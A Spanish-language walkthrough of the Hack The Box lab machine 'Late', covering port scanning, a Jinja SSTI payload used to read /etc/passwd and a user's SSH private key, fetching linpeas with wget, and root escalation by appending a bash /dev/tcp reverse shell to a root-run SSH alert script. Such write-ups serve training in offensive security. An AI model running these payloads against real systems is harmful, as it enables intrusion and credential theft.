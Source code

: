 ```yaml
---
title: "Late"
description: " balh as fsdsd sd"
pubDate: "Nov 08 2022"
heroImage: "/placeholder-hero.jpg"
url: "/basics"
---
```


- - -

## Escaneo de puertos

Hacemos nuestro escaneo de puertos como es usual y verificamos cuáles están abiertos y qué servicios están corriendo en cada uno, por ejemplo en esta  Máquina tenemos el puerto 80 y 22

```bash
nmap -p- --open --min-rate 5000 -Pn 10.10.11.156 -oG puertosAbiertos
```
Vemos que en el puerto 80 está corriendo un servidor web <i>late.htb</i> lo agregamos a nuestro archivo <i>/etc/hosts</i> de nuestra máquina

```bash
10.10.11.156 late.htb
```

  Mientras hacemos un recorrido por la página notamos que abajo tenemos nuevos enlaces que apuntan a <i>images.late.htb </i>,
  añadimos a <i>/etc/hosts </i>luego ingresar a nuestra URL, y vemos lo siguiente:
<img
  src='/hacking/fuzzing_enumeration.png'
  alt='Enumeración de la maquina Late en Hack The Box'
/>


Archivo hosts
En el archivo <i>/etc/hosts</i> de nuestra máquina añadimos:
<Highlighter text='10.10.11.156 images.late.htb' />
Nos vamos a la nueva URL:
  <img
    layout="fill"
    src="/hacking/late_1.webp"
    alt="Vista images.late.htb de la maquina Late en hack the box"
  />

  Vemos en el título que esta página usa Flask, necesitamos saber como funciona este conversor de imagen a texto
  creamos nuestra imagen con Photoshop, GIMP, etc. Testeamos la App para vulnerabilidades comunes como XSS, SQLi y CMDi
  abrimos e ingresamos payloads para estas vulnerabilidades enganchamos que una SSTI funciona <i>&#123; &#123; 7 * 7 &#125; &#125;</i>
  Lo subimos a la web y nos retorna un archivo llamado <i>result.txt</i> con el siguiente contenido.

  La palabra “Late” nos dice porque un SSTi pudo funcionar (Temp”late”). Al intentar conseguir nuestro RCE al subir una imagen con el siguiente payload por ejemplo

```bash
{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/etc/passwd’).read() }}
```
  La web lo procesa y al convertir imagen a texto algunos caracteres son añadidos y otros se pierden

```bash
f{ ‘’_lsd__. _mro__.subclasses__([‘/etc/passwd’).read() }}
```
  Después de verificar esto notamos que tenemos ejecución de remota de comandos y podemos ver el archivo /etc/passwd
  Notamos que hay un usuario "svc_acc" con su llave ssh privada y capacidad de login.
  Volvemos a subir nuestro payload, cambiando el path al archivo id_rsa.

```bash
{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/home/svc_acc/.ssh/id_rsa’).read() }}
```

  IMAGEN
  Ahora que tenemos el id_rsa hacemos un login con el usuario svc_acc

```bash
$ chmod 600 id_rsa"
$ ssh svc_acc@10.10.10.156 -i id_rsa
```

Root
  Descargamos linpeas e intentamos enumerar rutas con privilegios.
  Montamos nuestro servidor
```bash
python3 -m http.server 8080
```
Luego en la máquina Late
```bash
svc_acc@late:$ wget http://10.10.14.63:8080/linpeas.sh
chmod +x linpeas.sh"
./linpeas.sh"
```

Encontramos el archivo ssh-alert.sh.

```bash
svc_acc@late:$ cat /usr/local/sbin/ssh-alert.sh
  #!/bin/bash
  RECIPIENT=”root@late.htb”
  SUBJECT=”Email from Server Login: SSH Alert”
  BODY=”
  A SSH login was detected.
  User: $PAM_USER
  User IP Host: $PAM_RHOST
  Service: $PAM_SERVICE
  TTY: $PAM_TTY
  Date: `date`
  Server: `uname -a`
  “
  if [ ${PAM_TYPE} = “open_session” ]; then
  echo “Subject:${SUBJECT} ${BODY}” | /usr/sbin/sendmail ${RECIPIENT}
  fi
```

Vemos que se ejecuta cada vez que entablamos una sesión
inspeccionamos los atributos que tiene aunque no tiene el de
escribir podemos crear un archivo y anexarlo.

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
  — — -a — — — — e — — /usr/local/sbin/ssh-alert.sh"
```
Creamos un archivo file.txt con el payload de Reverse Shell y lo añadimos
al archivo ssh-alert.sh

```bash
bash -i >& /dev/tcp/10.10.14.63/9999 0>&1"
cat file.txt >> /usr/local/sbin/ssh-alert.sh"
```
  Configuramos un netcat en la Late y en nuestra máquina hacemos login.

```bash
nc -lvnp 9999"/>
```

Congratulations, Late has been Pwned!